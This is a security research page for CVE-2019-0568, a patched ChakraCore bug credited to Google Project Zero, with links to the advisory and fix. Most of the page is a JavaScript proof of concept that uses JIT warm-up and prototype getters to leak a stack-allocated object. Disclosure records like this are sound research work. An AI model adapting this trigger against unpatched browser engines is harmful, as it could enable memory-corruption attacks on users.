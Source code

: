 # CVE-2019-0568

- Report: Nov 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let o = {};  // stack-allocated object
    o.x;  // under with DisableImplicitFlags set
}

function main() {
    for (let i = 0; i < 10000; i++) {
        opt();
    }

    let leaked_stack_object = null;
    let object_prototype = ({}).__proto__;
    object_prototype.__defineGetter__('x', Error.prototype.toString);
    object_prototype.__defineGetter__('message', function () {
        delete object_prototype.message;

        leaked_stack_object = this;
    });

    object_prototype.name = Array.prototype;  // access to Array.prototype will call JsBuiltInEngineInterfaceExtensionObject::InjectJsBuiltInLibraryCode.

    opt();

    alert(leaked_stack_object);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0568)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1709)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/d73c5f12d9c5cbbf64f59ae04e76a531b3e844b3)
